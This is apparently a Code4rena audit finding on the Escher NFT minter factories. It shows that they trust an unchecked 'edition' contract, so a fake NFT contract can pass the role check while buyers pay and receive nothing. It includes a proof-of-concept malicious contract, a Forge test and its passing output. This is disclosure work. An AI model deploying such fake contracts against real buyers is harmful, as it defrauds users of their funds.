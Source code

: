 # Original link
https://github.com/code-423n4/2022-12-escher-findings/issues/29
# Lines of code

https://github.com/code-423n4/2022-12-escher/blob/main/src/minters/FixedPriceFactory.sol#L29-L38
https://github.com/code-423n4/2022-12-escher/blob/main/src/minters/LPDAFactory.sol#L29-L42
https://github.com/code-423n4/2022-12-escher/blob/main/src/minters/OpenEditionFactory.sol#L29-L38
https://github.com/code-423n4/2022-12-escher/blob/main/src/minters/FixedPrice.sol#L57-L67
https://github.com/code-423n4/2022-12-escher/blob/main/src/minters/LPDA.sol#L58-L89
https://github.com/code-423n4/2022-12-escher/blob/main/src/minters/OpenEdition.sol#L57-L94


# Vulnerability details

## Impact

In Solidity, any address can be cast to a contract, regardless of whether the code at the address represents the contract type being cast. This can cause problems, especially when the author of the contract is trying to hide malicious code. Let’s illustrate this with an example. [ref](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#the-vulnerability-6)

The following exploit applies to the following contracts: ```FixedPriceFactory.sol```, ```LPDAFactory.sol``` and ```OpenEditionFactory.sol```.

I will give example only for ```FixedPriceFactory```.

Alice can call ```createFixedSale``` from the ```FixedPriceSaleFactory``` contract. But ```Sale.edition``` can be a malicious contract which doesn't implement ```IEscher721``` interface, and functions will not behave as expected. Bob will try to call the buy function from ```FixedPrice``` contract, but the ```mint``` function may be different from ```IEscher721```'s mint function.

All users can see the malicious contracts address when it is passed as parameter in ```createFixedSale```. To further obfuscate the contract, Alice doesn't approve the contract's source code in the blockchain explorer in order to hide it's real purpose. The source code can be obtained from the bytecode, but it is gonna take extra time and it is a more difficult task for a common blockchain user.


## Proof of Concept

Imagine the following case:

1. Alice deploys the following NFT Escher contract:

```
contract FakeNft {
    function mint(address, uint256) public {
        console.log("EXPLOIT");
        // malicious code here
    }

    function hasRole(bytes32, address) public pure returns (bool) {
        return true;
    }
}
```

2. Alice calls ```createFixedSale``` with the following ```Sale``` struct:

```
sale {
    uint48 currentId: 1
    uint48 finalId: 3
    address edition: Address of the contract from step 1
    uint96 price: 1 ether
    address payable saleReceiver: Sale creator address
    uint96 startTime: block.timestamp
}

fixedPriceFactory.createFixedSale(sale)
```

The following [require](https://github.com/code-423n4/2022-12-escher/blob/main/src/minters/FixedPriceFactory.sol#L30) will pass because ```hasRole``` function of malicious contract will return ```true``` regardless of what the parameters are.
Then ```FixedPrice``` will [initialize](https://github.com/code-423n4/2022-12-escher/blob/main/src/minters/FixedPriceFactory.sol#L35) with the given ```sale``` struct.

3. Bob calls ```buy``` function with amount ```1``` and sends the NFT price which is ```1 ether```.
3.1 Function creates ```IEscher721``` contract
```IEscher721 nft = IEscher721(sale_.edition); // remember - the edition contract is malicious``` 
3.2 Then it will invoke ```mint``` function of ```nft```
```nft.mint(msg.sender, x); // it will call the mint function of the contract from step 1 which does absolutely nothing```
3.3 The function will continue to behave normally because there are no checks and the ether will be sent.

### PoC Test 
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "forge-std/Test.sol";
import {FixedPriceFactory} from "src/minters/FixedPriceFactory.sol";
import {FixedPrice} from "src/minters/FixedPrice.sol";

contract FakeNft is Test {
    function mint(address, uint256) public {
        console.log("EXPLOIT");
        // malicious code here
    }

    function hasRole(bytes32, address) public pure returns (bool) {
        return true;
    }
}

contract PoC is Test {
    FakeNft public nft;
    FixedPriceFactory public fixedPriceFactory;
    FixedPrice public fixedPrice;

    function setUp() public {
        vm.prank(address(1337));

        nft = new FakeNft();
        fixedPriceFactory = new FixedPriceFactory();
    }

    function test_CreateFixedSale() public {
        FixedPrice.Sale memory sale = FixedPrice.Sale(
            1,
            3,
            address(nft),
            1 ether,
            payable(address(1337)),
            uint96(block.timestamp)
        );

        fixedPrice = FixedPrice(fixedPriceFactory.createFixedSale(sale));
        vm.warp(sale.startTime + 100);

        fixedPrice.buy{value: 1 ether}(1);
    }
}

```

### PoC Test result

```
Running 1 test for test/ExternalContractRef.t.sol:PoC
[PASS] test_CreateFixedSale() (gas: 220804)
Logs:
  EXPLOIT

Test result: ok. 1 passed; 0 failed; finished in 1.82ms
```

It applies to the contracts listed above, the differences are the ```sale``` struct and checks.

## Tools Used

Forge, Manual

## Recommended Mitigation Steps

One solution is to create new escher contract directly in ```createFixedSale``` function, this will guarantee that the ```IEscher721``` contract will not be malicious and will act as expected.

The other solution is redesigning some parts of the source code. 

refer to [preventative-techniques](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#preventative-techniques-6).
